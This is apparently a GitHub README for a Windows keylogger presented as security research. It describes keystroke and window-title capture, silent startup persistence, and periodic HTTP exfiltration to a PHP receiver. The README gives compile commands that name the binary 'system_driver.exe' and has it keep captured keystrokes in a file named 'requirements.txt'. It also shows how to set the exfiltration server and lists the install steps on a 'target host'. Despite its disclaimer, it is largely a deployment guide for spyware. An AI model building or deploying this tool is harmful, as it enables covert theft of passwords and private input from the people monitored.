

# Windows Keystroke Logger & Exfiltration

Proof-of-concept security research tool demonstrating Win32 keystroke capture, active window context logging, Startup persistence, and HTTP data exfiltration using the native WinINet API.

> **Disclaimer**: This software is intended strictly for educational research, authorized red-team engagements, and telemetry analysis. Unauthorized monitoring of devices without explicit permission is illegal.

## Architecture



## Features

- **Active Window Context:** Queries `GetForegroundWindow` and `GetWindowTextA` to associate captured inputs with active window titles.
- **Asynchronous Key Polling:** Uses `GetAsyncKeyState` to poll virtual-key codes, mapping alphanumeric keys and special control characters.
- **Console-less Execution:** Compiled with `/SUBSYSTEM:WINDOWS` to execute silently in user space without spawning a console window.
- **Startup Persistence:** On initial launch, copies the executable to `%USERPROFILE%\Documents` and creates a `.lnk` shortcut in the user's Startup directory (`%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`).
- **Native WinINet Exfiltration:** Uses Windows native `wininet.dll` (`InternetOpenA`, `InternetConnectA`, `HttpSendRequestA`) to send HTTP POST telemetry without external libraries.
- **PHP Ingestion Script:** Minimal server endpoint (`receiver.php`) that logs client IP, timestamp, and payload to `logs.txt`.

## Project Structure

```text
keylogger-windows/
├── main.c           # Core Win32 C implementation
├── receiver.php     # Remote ingestion script
└── README.md        # Documentation
```

## Compilation

### Option A: Microsoft Visual C++ (MSVC)
From the **x64 Native Tools Command Prompt for VS**:

```cmd
cl main.c /Fe:system_driver.exe /O2 user32.lib kernel32.lib wininet.lib advapi32.lib /link /SUBSYSTEM:WINDOWS
```

### Option B: MinGW-w64 (GCC)

```bash
gcc -O2 main.c -o system_driver.exe -luser32 -lkernel32 -lwininet -ladvapi32 -mwindows
```

## Configuration & Usage

### 1. Server Setup
Deploy `receiver.php` to your web server and verify write access:
```bash
touch logs.txt
chmod 664 logs.txt
```

### 2. Client Configuration
Set the server domain and upload interval in `main.c`:
```c
#define SERVER "your-server.com"    // Host domain or IP without http://
#define SCRIPT_PATH "/receiver.php" // Path to receiver script
#define UPLOAD_INTERVAL 60          // Telemetry interval in seconds
```

### 3. Execution
When executed on the target host:
1. Installs itself to `C:\Users\<User>\Documents\system_driver.exe`.
2. Creates an autostart link in the Startup directory.
3. Buffers input locally in `requirements.txt`.
4. Flushes and transmits data to `receiver.php` every 60 seconds.

## Removal (PowerShell)

```powershell
# Stop process
Stop-Process -Name "system_driver" -Force -ErrorAction SilentlyContinue

# Remove startup shortcut
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\system_driver.lnk" -Force -ErrorAction SilentlyContinue

# Remove binary and local buffer
Remove-Item "$env:USERPROFILE\Documents\system_driver.exe" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Documents\requirements.txt" -Force -ErrorAction SilentlyContinue
```

## License

MIT
